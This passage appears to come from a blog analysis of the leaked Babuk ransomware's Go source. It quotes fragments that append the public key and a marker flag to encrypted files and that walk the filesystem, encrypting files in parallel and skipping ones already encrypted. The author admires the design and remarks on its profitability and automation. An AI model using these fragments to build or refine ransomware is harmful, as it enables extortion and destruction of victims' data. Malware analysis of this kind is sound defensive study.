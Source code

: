 ```golang
file.WriteAt(buffer, offset)
```

Finally, the public key and a special value `flag` are appended to the file. Flag is a unique 6 byte value used by the decryptor to ensure it is operating on a file it is meant to (and not someone else's Babuk instance).

```golang
var flag [6]byte
flag[0] = 0xAB
flag[1] = 0xBC
flag[2] = 0xCD
flag[3] = 0xDE
flag[4] = 0xEF
flag[5] = 0xF0

// ...
file.WriteAt([]byte(publicKey[:]), file_size)
file.WriteAt([]byte(flag[:]), file_size+32)
```

I do like the method of storing all this data in the file, as well as using the special extension to not reencrypt files. If your first run fails, you can pick up where you left off and not double encrypt anything. Storing the key in the file is a benefit of having a fixed size key, and the ECC shared secret derivation is really elegant. 

One downside to this scheme is that each install requires a unique `m_publ`, as `m_priv` is provided in the decryptor. Having a single server key allows a server to operate a bit more like an automated SaaS. That said, customizing a build that could bring in hundreds to millions of dollars is not so much work, especially for a tailored enterprise breach. Still, you could automate a lot of this infrastructure with some templating. 

## Filepath Walk

In `main()` we see a more fleshed out `filepath.Walk()` than what we had in our proof of concept. 

As seen above, Babuk uses an extension to know whether a file has been encrypted. So when visiting files anything with the `.babyk` extension is skipped. They encrypt files in parallel, kicking off an `encrypt_file()` based on the number `runtime.GOMAXPROCS(0) * 2`. We will take a closer look at this in the next section.

```golang
if strings.Contains(info.Name(), ".babyk") == false 
	&& info.Name() != "README_babyk.txt" {
	fmt.Printf("Pushing to queue: %s\n", path)

	if queue_counter >= queue_max {
		wg.Wait()
		queue_counter = 0
	}
	wg.Add(1)
	go encrypt_file(&wg, path)
	queue_counter += 1
}
```

